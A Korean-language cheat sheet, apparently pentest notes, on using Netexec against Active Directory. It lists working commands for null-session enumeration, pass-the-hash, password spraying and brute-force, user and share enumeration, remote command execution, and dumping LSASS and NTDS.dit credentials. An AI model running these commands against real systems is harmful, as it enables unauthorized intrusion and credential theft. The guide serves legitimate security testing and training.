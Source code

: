 

# Netexec (nxc) 활용 가이드

Netexec(구 CrackMapExec)은 대규모 네트워크 환경에서 인증 정보를 테스트하고, 시스템을 열거하며, 원격으로 명령을 실행하는 데 사용되는 매우 강력한 자동화 도구입니다. 특히 Active Directory 환경에서 대단히 효율적입니다.

---

### **1. 기본 사용법 및 인증 테스트**

- **목표:** 단일 또는 다수의 시스템을 대상으로 주어진 인증 정보가 유효한지 확인합니다.
- **기본 구문:** `netexec <protocol> <targets> -u <user> -p <password>`

```bash title="익명(Null Session) 열거"
# SMB 프로토콜을 통해 익명으로 접속하여 기본 정보(OS, 도메인 등) 확인
netexec smb $target
```

```bash title="단일 자격증명 테스트"
# 특정 사용자와 비밀번호로 SMB 로그인을 시도하고, 성공 시 "(Pwned!)"가 표시됨
netexec smb $target -u 't-skid' -p 'tj072889*'
```

```bash title="Pass-the-Hash (PTH)"
# 비밀번호 대신 NTLM 해시를 사용하여 인증
netexec smb $target -u 'Administrator' -H 'aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d'
```

---

### **2. 대규모 인증 테스트 (Password Spraying & Brute-force)**

- **목표:** 사용자 목록과 비밀번호 목록을 이용해 대규모 인증을 시도하여 유효한 자격증명 조합을 찾아냅니다.

```bash title="Password Spraying"
# 여러 사용자에게 하나의 비밀번호를 대입
# --continue-on-success: 성공해도 멈추지 않고 계속 진행
netexec smb $target -u users.txt -p 'ResetMe123!' --continue-on-success
```

```bash title="Brute-force"
# 하나의 사용자에게 여러 비밀번호를 대입 (계정 잠금 정책 주의!)
netexec smb $target -u 'Jareth' -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
```

---

### **3. 정보 수집 모듈**

- **목표:** 인증 성공 후, `--<module>` 옵션을 사용하여 특정 정보를 수집합니다.

```bash title="주요 정보 수집 모듈"
# 공유 폴더 목록 및 권한 확인
netexec smb $target -u <user> -p <pass> --shares

# 유저 리스트, 설명
netexec smb $target -u <user> -p <pass> --users

# 패스워드 정책 확인
netexec smb $target -u <user> -p <pass> --pass-pol

# RID Cycling을 통해 도메인 사용자 목록 덤프
netexec smb $target -u <user> -p <pass> --rid-brute

# BloodHound 데이터 수집
netexec smb $target -u <user> -p <pass> --bloodhound -c all
```

---

### **4. 원격 명령어 실행**

- **목표:** 유효한 자격증명을 사용하여 원격 시스템에서 명령어를 실행합니다.

```bash title="단일 명령어 실행"
# -x <command>: 원격으로 cmd 명령어를 실행
netexec smb $target -u <user> -p <pass> -x 'whoami'

# -X <ps_command>: 원격으로 PowerShell 명령어를 실행
netexec smb $target -u <user> -p <pass> -X '$PSVersionTable'
```

```bash title="내장 모듈을 이용한 고급 기능"
# -M <module_name>: 다양한 기능을 가진 내장 모듈 실행

# lsassy 모듈로 LSASS 프로세스 덤프 시도
netexec smb $target -u <user> -p <pass> -M lsassy

# ntdsutil 모듈로 NTDS.dit 파일 덤프 시도 (DC 대상)
netexec smb $DC_IP -u <DA_user> -p <pass> -M ntdsutil
```

> **지원 프로토콜:** `smb` 외에도 `winrm`, `rdp`, `ldap`, `ssh`, `mssql` 등 다양한 프로토콜을 지원하여 여러 환경에서 활용할 수 있습니다.


